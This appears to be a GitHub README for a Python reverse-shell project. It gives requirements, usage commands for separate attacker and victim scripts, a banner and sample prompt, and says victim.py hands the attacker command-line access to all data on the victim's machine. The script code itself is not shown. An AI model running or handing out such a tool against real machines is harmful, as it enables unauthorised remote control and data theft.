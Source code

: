 # Reverse Shell Using Python

* ## Requirements:
  Install python on both systems using following command:
  ```bash
  $ sudo apt-get install python3
  ```
  
* ## Usage:
   On Attacker machine:
   
  ```bash
  python attacker.py
   ____                                   ____  _          _ _    
  |  _ \ _____   _____ _ __ ___  ___     / ___|| |__   ___| | |   
  | |_) / _ \ \ / / _ \ '__/ __|/ _ \____\___ \| '_ \ / _ \ | |   
  |  _ <  __/\ V /  __/ |  \__ \  __/_____|__) | | | |  __/ | |_  
  |_| \_\___| \_/ \___|_|  |___/\___|    |____/|_| |_|\___|_|_(_)

  Connected to xxx.xxx.xxx.xxx@hostname
  $ ++++Execute your commands here.++++
  ```
  
   On Victim Machine:
   
  ```bash
  python victim.py
  ```
 
 * ## Description:
  The "victim.py" file, when executed togather, create a
  reverse shell  on the victim's machine and connects 
  it to the attacker machine  who has access to all
  the data on the victim's machine via commandline.
  The attacker is required to be on the same network as
  the victim and  change the ip address of the
  server with his/her own's.
  
  
